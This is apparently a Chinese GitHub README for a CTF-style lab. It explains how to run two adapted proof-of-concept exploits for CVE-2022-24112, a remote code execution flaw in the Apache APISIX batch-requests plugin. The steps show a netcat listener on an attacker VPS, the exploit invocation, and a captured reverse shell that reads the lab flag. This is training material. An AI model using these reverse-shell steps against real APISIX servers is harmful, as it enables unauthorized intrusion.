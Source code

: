 # POC
收集的POC
## CVE-2022-24112

为了做春秋云境:CVE-2022-24112靶场环境，修改了两个POC，将[M4xSec](https://github.com/M4xSec/Apache-APISIX-CVE-2022-24112/blob/main/apisix-exploit.py)与[twseptian](https://github.com/twseptian/cve-2022-24112/blob/main/poc/poc2.py)两位师傅的POC稍作修改，适应春秋云境靶场：

---
**春秋云境:CVE-2022-24112：**

Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。 Apache APISIX中存在远程代码执行漏洞，该漏洞源于产品的batch-requests插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin API的IP限制，容易导致远程代码执行。

---
原POC：

1、M4xSec：https://github.com/M4xSec/Apache-APISIX-CVE-2022-24112/blob/main/apisix-exploit.py

2、twseptian：https://github.com/twseptian/cve-2022-24112/blob/main/poc/poc2.py

修改后的POC为我上面写的两个，分别针对Linux和Windows使用环境：

---

**CVE-2022-24112_Linux_by_twseptian.py**

1. VPS开启监听：`nc -lvvp 18888`
2. 进入POC目录运行：
   
   **注意**：此处添加-t的数据时，不需要写入`http://`或`https://`，只需要域名+端口即可，如下
   ```
   python3 CVE-2022-24112_Linux_by_twseptian.py -t eci-eninecsteC2zon6q0xod9n5r7me4ih.cloudeci1.ichunqiu.com:9080 -L VPS_IP -P VPS_PODRPODR
   ```
3. 返回查看VPS情况如下
   ```
   [root@root ~]# nc -lvvp 18888
   Ncat: Version 7.50 ( https://nmap.org/ncat )
   Ncat: Listening on :::18888
   Ncat: Listening on 0.0.0.0:18888
   Ncat: Connection from x.x.x.x.
   Ncat: Connection from x.x.x.x:x.
   id
   uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
   cat /flag
   flag{0834f79f-5f40-4389-bce7-c64e969734c4}
   ```

---

**CVE-2022-24112_Windows_by_M4xSec.py**

1. VPS开启监听：`nc -lvvp 18888`
2. 进入POC目录运行：
   
   **注意**：此处添加-t的数据时，不需要写入`http://`或`https://`，只需要域名+端口即可，如下
   ```
   python3 CVE-2022-24112_Windows_by_M4xSec.py eci-eninecsteC2zon6q0xod9n5r7me4ih.cloudeci1.ichunqiu.com:9080 VPS_IP VPS_PODRPODR
   ```
3. 返回查看VPS情况如下
   ```
   [root@root ~]# nc -lvvp 18888
   Ncat: Version 7.50 ( https://nmap.org/ncat )
   Ncat: Listening on :::18888
   Ncat: Listening on 0.0.0.0:18888
   Ncat: Connection from x.x.x.x.
   Ncat: Connection from x.x.x.x:x.
   id
   uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
   cat /flag
   flag{0834f79f-5f40-4389-bce7-c64e969734c4}
   ```
